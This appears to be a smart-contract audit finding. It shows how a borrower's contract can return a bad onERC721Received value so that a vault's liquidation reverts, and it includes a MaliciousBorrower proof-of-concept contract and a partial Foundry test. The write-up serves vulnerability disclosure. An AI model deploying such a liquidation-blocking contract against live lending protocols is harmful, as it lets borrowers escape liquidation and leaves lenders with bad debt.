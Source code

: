 When liquidating a position, `_cleanUpLoan()` is called on the loan. This attempts to send the uniswap LP position back to the user via the following line:

```solidity
nonfungiblePositionManager.safeTransferFrom(address(this), owner, tokenId);
```

This `safeTransferFrom` function call invokes the `onERC721Received` function on the owner's contract. The transaction will only succeed if the owner's contract returns the function selector of the standard `onERC721Received` function. However, the owner can design the function to return an invalid value, and this would lead to the `safeTransferFrom` reverting, thus being unable to liquidate the user.

### Impact

This leads to bad debt accrual in the protocol which cannot be prevented, and eventually insolvency.

### Proof of Concept

Below is a foundry test that proves this vulnerability. To run the PoC:

1. Copy the attacker contract into `test/integration/V3Vault.t.sol`.
2. In the same file, copy the contents of the 'foundry test' dropdown into the `V3VaultIntegrationTest` contract.
3. In the terminal, enter `forge test --via-ir --mt test_preventLiquidation -vv`.

Attacker Contract:

```solidity
contract MaliciousBorrower {
    
    address public vault;

    constructor(address _vault) {
        vault = _vault;
    }
    function onERC721Received(address operator, address from, uint256 tokenId, bytes calldata data) external returns (bytes4) {

        // Does not accept ERC721 tokens from the vault. This causes liquidation to revert
        if (from == vault) return bytes4(0xdeadbeef);

        else return msg.sig;
    }
}
```

Foundry test:

```solidity
function test_preventLiquidation() external {
        
        // Create malicious borrower, and setup a loan
        address maliciousBorrower = address(new MaliciousBorrower(address(vault)));
        custom_setupBasicLoan(true, maliciousBorrower);

        // assert: debt is equal to collateral value, so position is not liquidatable
        (uint256 debt,,uint256 collateralValue, uint256 liquidationCost, uint256 liquidationValue) = vault.loanInfo(TEST_NFT);
        assertEq(debt, collateralValue);

        // collateral DAI value change -100%
        vm.mockCall(
            CHAINLINK_DAI_USD,
            abi.encodeWithSelector(AggregatorV3Interface.latestRoundData.selector),
            abi.encode(uint80(0), int256(0), block.timestamp, block.timestamp, uint80(0))
        );
```